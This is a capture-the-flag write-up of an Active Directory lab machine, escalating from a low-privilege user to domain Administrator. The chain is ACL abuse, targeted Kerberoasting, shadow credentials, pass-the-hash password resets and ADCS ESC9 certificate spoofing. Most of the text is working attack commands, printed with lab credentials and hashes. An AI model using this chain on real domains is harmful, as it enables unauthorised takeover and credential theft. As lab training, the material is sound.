Another AD box that showcases the use of certipy to exploit an ADCS that is vulnerable to ESC9. We first start off with Judith having WriteOwner privileges over the management group, which has GenericWrite over the management_svc user. management_svc has GenericAll over ca_operator, which stores a vulnerable certificate template. From here on I'm able to change ca_operator's UPN to Administrator.


Beginning with nmap scan.


```
nmap -sC -sV 10.129.231.186
```

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-12-22 07:07:34Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED
| Not valid before: 2025-06-11T21:05:29
|_Not valid after:  2105-05-23T21:05:29
|_ssl-date: 2025-12-22T07:08:55+00:00; +7h00m01s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-12-22T07:08:55+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED
| Not valid before: 2025-06-11T21:05:29
|_Not valid after:  2105-05-23T21:05:29
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED
| Not valid before: 2025-06-11T21:05:29
|_Not valid after:  2105-05-23T21:05:29
|_ssl-date: 2025-12-22T07:08:55+00:00; +7h00m01s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-12-22T07:08:54+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED
| Not valid before: 2025-06-11T21:05:29
|_Not valid after:  2105-05-23T21:05:29
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-12-22T07:08:17
|_  start_date: N/A
```

These ports open shows us that we are scanning the DC.

Updating my /etc/hosts file with the certified HTB's domain


**SMB Enumeration**
```
nxc smb certified.htb --shares -u 'judith.mader' -p 'judith09'
```
I'll start by checking the SMB with Judith's credentials


Nothing particularly interesting found in the smb shares.


**BloodHound**


I'll run BloodHound to map the AD Domain mappings and see if I find anything.
```
sudo bloodhound-python --dns-tcp -ns 10.129.231.186 -d certified.htb -u 'judith.mader' -p 'judith09' -c all
```


This is what I got from the AD mapping. We are able to set ourselves as owner on the Management Group, then reset the password of MANAGEMENT_SVC via GenericWrite, and then reset password of CA_OPERATOR. 



**Lateral movement to MANAGEMENT_SVC**
```
impacket-owneredit -action write -new-owner 'judith.mader' -target 'Management' 'certified'/'judith.mader':'judith09' -dc-ip 10.129.231.186
```


Resetting MANAGEMENT_SVC with GenericWrite
```
 python targetedKerberoast.py -v -d 'certified.htb' -u 'judith.mader' -p 'judith09'

```



We get CLOCK SKEW error, which is typical because we have to be within 5 minutes of the local DC time. looking back into our nmap scan , we can see that the clock skew median is 7 hours, indicating that the DC is 7 hours ahead of our local time.
```
Host script results:
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s
```

There is a good trick to circumvent against this via the faketime module, we can add 7 hours to our current local time.

```
faketime "+7 hours"  python targetedKerberoast.py -v -d 'certified.htb' -u 'judith.mader' -p 'judith09'
```


We can proceed to crack this on hashcat.

```
hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```


Unfortunately, hashcat was not able to crack this hash. However, with the GenericWrite attribute, we can still get Shadow Credentials of management svc.


```
python3 /opt/bloodyAD/bloodyAD.py --host 10.129.231.186 -u judith.mader -p 'judith09' -d domain.lab add shadowCredentials management_svc
```

This was the command I ran to the NT Hash for management_svc. As you can see it was not successful.




After a little bit of troubleshooting, I realised I had this misconception that owning an AD group meant that you were a part of that AD group. This was not the case. I had to add judith.mader to the AD group manually. Because of this oversight, Judith does not have enough permissions to  write the attribute `msDS-KeyCredentialLink` for ShadowCredentials abuse.

Proceeding to add Judith to the management group :
```
impacket-dacledit -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=management,CN=USERS,DC=certified,DC=htb' 'certified'/'judith.mader':'judith09' -dc-ip 10.129.231.186


net rpc group addmem "management" "judith.mader" -U "certified"/"judith.mader"%"judith09" -S "dc01.certified.htb"

```



The command is now successful.
management_svc:a091c1832bcdd4677c28b5a6a1295584



**Compromising CA_OPERATOR**

With management_svc's hash, we can use pth-net to utilise Pass-The-Hash for a force change of ca_operator's password.
```
pth-net rpc password "ca_operator" "newP@ssword2022" -U "certified"/"management_svc"%"ffffffffffffffffffffffffffffffff":"a091c1832bcdd4677c28b5a6a1295584" -S "dc01.certified.htb" 
```


A quick SMB query shows us that we have successfully obtained CA_Operator.


**Using Certipy to check for any ESC Vulnerabilities**

With CA_Operator, it seems to be hinting towards Certificate Authority. I'll check if there's any vulnerable templates with this command.
```
certipy-ad find -dc-ip 10.129.8.224 -ns 10.129.8.224 -u ca_operator@manager.htb -p 'newP@ssword2022' -vulnerable -stdout
```

Note: My IP has changed to 10.129.8.224 as my previous session expired.

```
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : certified-DC01-CA
    DNS Name                            : DC01.certified.htb
    Certificate Subject                 : CN=certified-DC01-CA, DC=certified, DC=htb
    Certificate Serial Number           : 36472F2C180FBB9B4983AD4D60CD5A9D
    Certificate Validity Start          : 2024-05-13 15:33:41+00:00
    Certificate Validity End            : 2124-05-13 15:43:41+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : CERTIFIED.HTB\Administrators
      Access Rights
        ManageCa                        : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        ManageCertificates              : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Enroll                          : CERTIFIED.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CertifiedAuthentication
    Display Name                        : Certified Authentication
    Certificate Authorities             : certified-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireUpn
                                          SubjectRequireDirectoryPath
    Enrollment Flag                     : PublishToDs
                                          AutoEnrollment
                                          NoSecurityExtension
    Extended Key Usage                  : Server Authentication
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-05-13T15:48:52+00:00
    Template Last Modified              : 2024-05-13T15:55:20+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFIED.HTB\operator ca
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : CERTIFIED.HTB\Administrator
        Full Control Principals         : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Write Owner Principals          : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Write Dacl Principals           : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Write Property Enroll           : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
    [+] User Enrollable Principals      : CERTIFIED.HTB\operator ca
    [!] Vulnerabilities
      ESC9                              : Template has no security extension.
    [*] Remarks
      ESC9                              : Other prerequisites may be required for this to be exploitable. See the wiki for more details.

```

This output is long, but what we can see is that the template CertifiedAuthentication is susceptible to ESC9.

Referring to this website, we can abuse this vulnerability to priv esc to Administrator.
https://www.hackingarticles.in/adcs-esc9-no-security-extension/

Adding the Administrator UPN to management_svc so we can spoof our identity as the admin.
```
certipy-ad account update -u management_svc@certified.htb -hashes 'a091c1832bcdd4677c28b5a6a1295584' -user ca_operator -upn Administrator -dc-ip 10.129.8.224
```


After spoofing, we request our certificate  as the spoofed Administrator.


```
certipy-ad req -u ca_operator@certified.htb  -p 'newP@ssword2022' -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.129.8.224 
```

After spoofing, we request our certificate  as the spoofed Administrator.


Referencing from HackingArticles, we have to revert our UPN back to ca_operator so as to avoid any authentication issues when we try to get the NTHash of Administrator.

```
certipy-ad account update -u management_svc@certified.htb  -hashes 'a091c1832bcdd4677c28b5a6a1295584'  -user ca_operator -upn ca_operator@certified.htb -dc-ip 10.129.8.224
```


Following this, we request for the NT hash.

```
certipy-ad auth -pfx administrator.pfx -domain certified.htb -dc-ip 10.129.8.224

```



Clock skew error, but this is fixable.


Administrator:0d5b49608bbce1751f708748f67e2d34


**Logging into WinRM as Administrator**

```
evil-winrm -i certified.htb -u 'Administrator' -H '0d5b49608bbce1751f708748f67e2d34'
```
